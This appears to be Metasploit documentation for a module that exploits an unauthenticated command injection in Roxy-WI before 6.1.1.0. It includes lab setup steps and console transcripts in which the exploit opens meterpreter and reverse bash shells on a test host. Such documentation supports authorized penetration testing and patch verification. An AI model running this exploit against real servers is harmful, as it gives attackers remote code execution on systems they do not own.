 ## Vulnerable Application

### Description

This module exploits an unauthenticated command injection vulnerability in Roxy-WI prior to version 6.1.1.0.
Successful exploitation results in remote code execution under the context of the web server user.


### Setup

Roxy-WI requires Python and a web server to run. Please visit following url to find out required python and other packages.

[https://roxy-wi.org/installation.py](https://roxy-wi.org/installation.py)

```
git clone https://github.com/hap-wi/roxy-wi.git /var/www/haproxy-wi
chmod +x haproxy-wi/app/*.py 
sudo ./haproxy-wi/app/create_db.py
chown -R www-data:www-data haproxy-wi
```

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/roxy_wi_exec`
4. Set `RHOST`
5. Set `LHOST`
8. Run `exploit`
9. Do: `run`
10. You should get a shell.
11. **Verify** that you are getting meterpreter session.

## Options
Set `TAGETURI` if the Roxy-WI is installed at a custom path.

### TARGETURI
The base path to Roxy-WI. The default value is `/`

## Scenarios

```
msf6 > use exploit/linux/http/roxy_wi_exec 
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/http/roxy_wi_exec) > set RHOST 192.168.56.116
RHOST => 192.168.56.116
msf6 exploit(linux/http/roxy_wi_exec) > set RPORT 443
RPORT => 443
msf6 exploit(linux/http/roxy_wi_exec) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf6 exploit(linux/http/roxy_wi_exec) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.56.116:443 is vulnerable!
[+] The target is vulnerable. The device responded to exploitation with a 200 OK and test command successfully executed.
[*] Generating payload.
[*] Trying to detect command injection vulnerability.
[*] Sending stage (40164 bytes) to 192.168.56.116
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.116:37394) at 2022-07-21 13:49:23 +0300
[+] Exploit successfully executed.

meterpreter > pwd
/var/www/haproxy-wi/app
```

You can also use cmd payloads.

```
msf6 > use exploit/linux/http/roxy_wi_exec 
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/http/roxy_wi_exec) > set RHOST 192.168.56.116
RHOST => 192.168.56.116
msf6 exploit(linux/http/roxy_wi_exec) > set RPORT 443
RPORT => 443
msf6 exploit(linux/http/roxy_wi_exec) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf6 exploit(linux/http/roxy_wi_exec) > set payload cmd/unix/reverse_bash
payload => cmd/unix/reverse_bash
msf6 exploit(linux/http/roxy_wi_exec) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.56.116:443 is vulnerable!
[+] The target is vulnerable. The device responded to exploitation with a 200 OK and test command successfully executed.
[*] Generating payload.
[*] Trying to detect command injection vulnerability.
[*] Command shell session 2 opened (192.168.56.1:4444 -> 192.168.56.116:37396) at 2022-07-21 13:50:23 +0300
[+] Exploit successfully executed.

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)```
```
